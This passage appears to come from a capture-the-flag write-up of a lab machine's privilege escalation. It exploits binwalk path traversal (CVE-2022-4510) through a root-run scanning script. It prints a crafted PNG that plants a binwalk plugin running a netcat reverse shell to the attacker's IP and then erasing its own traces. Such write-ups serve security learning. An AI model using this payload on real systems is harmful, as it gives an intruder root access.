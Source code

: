 ```shell
$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

Looking for binwalk vulnerabilities we found the [CVE-2022-4510](https://nvd.nist.gov/vuln/detail/CVE-2022-4510). The vulnerability is a path transversal that can be exploited by sending crafted PFS filesystem files through the flag `-e` of binwalk. Since `malwarescan.sh` uses the flag `-e` in the binwalk command we have all the conditions for this vulnerability.

In the [article](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/) they explain in more detail how this vulnerability can be leverage to execute commands. However we used an [exploit](https://www.exploit-db.com/exploits/51249) from exploit database. 
The first thing we do, is start a netcat listener using the port 1234 for example. Once we send the exploit to the target machine, we go to the directory `/var/www/pilgrimage.htb/shrunk/` and execute `python3 /tmp/51249.py /tmp/source.png <IP> <PORT>` where IP is our ip address, PORT is the port listening using netcat and source.png is a random image that we sent to the remote machine. The exploit will create a image `binwalk_exploit.png` containing the exploit.

```shell
$ cat binwalk_exploit.png 
PNG

IHD2/tEXtjust for test!Գ
                        IDATx


123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~6?IENDB`PFS/0.9../../../.config/binwalk/plugins/binwalk.py4.import binwalk.core.plugin
import os
import shutil
class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        if not os.path.exists("/tmp/.binwalk"):
            os.system("nc 10.10.14.123 1234 -e /bin/bash 2>/dev/null &")
            with open("/tmp/.binwalk", "w") as f:
                f.write("1")
        else:
            os.remove("/tmp/.binwalk")
            os.remove(os.path.abspath(__file__))
            shutil.rmtree(os.path.join(os.path.dirname(os.path.abspath(__file__)), "__pycache__"))
```
After a couple of seconds we get a shell as root.